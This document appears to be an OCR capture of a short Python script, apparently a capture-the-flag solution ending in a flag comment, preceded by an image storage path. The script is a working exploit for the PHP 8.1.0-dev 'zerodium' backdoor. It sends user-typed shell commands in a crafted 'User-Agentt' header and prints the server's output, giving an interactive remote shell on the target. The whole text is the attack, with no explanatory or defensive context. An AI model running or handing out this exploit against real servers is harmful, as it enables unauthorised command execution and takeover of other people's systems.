 ```python
import os
import re
import requests

host = input("Enter the host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    try:
        while 1:
            cmd = input("$ ")
            headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36",
                "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers=headers,
                                   allow_redirects=False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>', 1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
# ATTT{con_3_thang_nua_la_thi_roi}
```

